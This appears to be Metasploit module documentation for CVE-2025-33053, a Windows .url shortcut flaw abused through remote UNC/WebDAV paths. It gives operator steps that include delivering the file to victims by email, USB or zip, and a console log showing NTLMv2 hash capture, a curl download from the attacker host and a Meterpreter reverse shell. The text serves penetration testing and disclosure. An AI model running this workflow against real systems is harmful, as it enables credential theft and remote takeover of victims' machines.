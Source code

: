 ## Vulnerable Application

CVE-2025-33053 - Internet Shortcut (.url) UNC Path Exploit

Windows improperly handles `.url` (Internet Shortcut) files referencing remote
UNC paths. Specifically, `.url` files that specify a remote working directory
(`WorkingDirectory=\\attacker\webdav`) and a trusted executable (e.g.,
`iediagcmd.exe`) may cause the system to access the attacker's server when opened.

This behavior can be exploited to:

- Trigger NTLM authentication leaks (SMB relay)
- Load remote payloads via WebDAV shares
- Attempt DLL sideloading if conditions allow

## Affected Versions

- Windows 10 22H2
- Windows 11 23H2
- Fully patched prior to June 2025 Patch Tuesday

## Verification Steps

1. Run: `use windows/fileformat/unc_url_cve_2025_33053`
2. Run: `set LHOST [IP address]`
3. Run: `set SRVHOST [IP address]`
4. Run: `run`
5. Deliver the `.url` to the target (email, USB, zip)
6. On victim's machine, open `.url`
7. Payload execution

### Overview

This module generates a malicious `.url` Internet Shortcut file that abuses
CVE-2025-33053 — a vulnerability in how Windows handles `.url` files referencing remote UNC
paths.

When opened on a vulnerable system, the `.url` causes the system to connect to a
UNC path(e.g., a WebDAV or SMB share), triggering an attempt to execute a trusted binary
from the attacker's location. This can result in RCE or credential leaks.


## Options

### OUTFILE
This option allows user to define their own .url file. If this option is not set, the module will generate random .url file - `YWSXVjpW.url`.

### FOLDER_NAME
The `FOLDER_NAME` option defines SMB share folder, where the final payload file is stored. Generally can be anything, default is `webdav`.

### FILE_NAME
This option defines payload file stored in SMB share. This option should not change as it is bound to executable in `URL` parameter of `.url` file. The default value is `explorer.exe`.


## Scenarios

```
msf6 exploit(windows/fileformat/unc_url_cve_2025_33053) > run verbose=true 
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

msf6 exploit(windows/fileformat/unc_url_cve_2025_33053) > [*] Started reverse TCP handler on 192.168.3.7:4444 
[*] URL file: /home/ms/.msf4/local/YWSXVjpW.url, deliver to target's machine and wait for shell
[*] Run following: curl http://192.168.3.7:8080/YWSXVjpW.url -o YWSXVjpW.url
[*] Server is running. Listening on 192.168.3.7:4445
[*] The SMB service has been started.
[*] Received SMB connection from 10.5.132.137
[SMB] NTLMv2-SSP Client     : 10.5.132.137
[SMB] NTLMv2-SSP Username   : WIN10_22H2_7FD2\msfuser
[SMB] NTLMv2-SSP Hash       : msfuser::WIN10_22H2_7FD2:[HASH]

[*] Sending stage (203846 bytes) to 10.5.132.137
[*] Meterpreter session 1 opened (192.168.3.7:4444 -> 10.5.132.137:49740) at 2025-06-24 16:08:56 +0200

msf6 exploit(windows/fileformat/unc_url_cve_2025_33053) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                                Connection
  --  ----  ----                     -----------                                ----------
  1         meterpreter x64/windows  WIN10_22H2_7FD2\msfuser @ WIN10_22H2_7FD2  192.168.3.7:4444 -> 10.5.132.137:49740 (10.5.132.137)

msf6 exploit(windows/fileformat/unc_url_cve_2025_33053) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WIN10_22H2_7FD2
OS              : Windows 10 22H2+ (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```


## References

- [GitHub PoC](https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept)
- [NVD Entry](https://nvd.nist.gov/vuln/detail/CVE-2025-33053)
- [LOLBAS Project](https://lolbas-project.github.io)
- [Microsoft Advisory](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-33053)

